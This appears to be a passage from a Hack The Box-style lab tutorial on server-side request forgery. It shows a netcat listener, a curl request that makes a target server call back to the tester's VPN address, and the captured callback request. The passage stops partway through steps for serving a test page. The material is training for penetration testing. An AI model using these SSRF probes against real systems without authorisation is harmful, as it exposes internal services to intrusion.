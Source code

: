 ```shell-session
<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```

#### Netcat Listener

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ nc -nvlp 8080

listening on [any] 8080 ...
```

#### Curl - Testing for SSRF

  SSRF Exploitation Example

```shell-session
Pangulin@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```

We will receive the following into our Netcat listener confirming the SSRF vulnerability via a request issued by the target server using [Python-urllib](https://docs.python.org/3.8/library/urllib.html):

#### Netcat Listener - Confirming SSRF

  SSRF Exploitation Example

```shell-session
Connection received on <TARGET IP> 49852
GET / HTTP/1.1
Accept-Encoding: identity
Host: <VPN/TUN Adapter IP>:8080
User-Agent: Python-urllib/3.8
Connection: close
```

We can test this functionality through the steps below:

1. Create a file called index.html

Code: html

```html
<html>
</body>
<a>SSRF</a>
<body>
<html>
```
2. Inside the directory where index.html is located, start an HTTP server using the following command

